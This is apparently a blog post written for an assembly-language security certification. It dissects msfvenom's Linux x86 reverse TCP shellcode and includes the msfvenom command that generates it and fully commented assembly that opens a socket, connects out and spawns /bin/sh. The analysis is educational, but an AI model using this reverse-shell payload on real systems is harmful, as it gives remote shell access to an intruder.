```yaml
---
layout: post
title: "SLAE Problem 5: Msfpayload Analysis"
description: "Analysis of Msfpayload shellcode samples"
tags: [asm, shellcode, msfpayload]
---
```


# Assignment 5

This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Shellcode 1: linux/x86/shell_reverse_tcp

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp binary using:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin
{% endhighlight %}

It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the binary using Libemu and generated a .dot file:

{% highlight bash %}
/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin
{% endhighlight %}

I then converted the dot file to a png using:

{% highlight bash %}
dot -Tpng revshell.dot > revshell.png
{% endhighlight %}

Which gives us:

<img src="revshell.png" alt="revshell.dot" style="width: 500px;"/>

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:
{% highlight nasm %}
; Socket
;; Clear out ebx
xor ebx,ebx
;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx
;; Increment ebx. This is used pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f
;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET which is 2 in 1 operation
push dword 0x5c110002
;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80
{% endhighlight %}

All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)
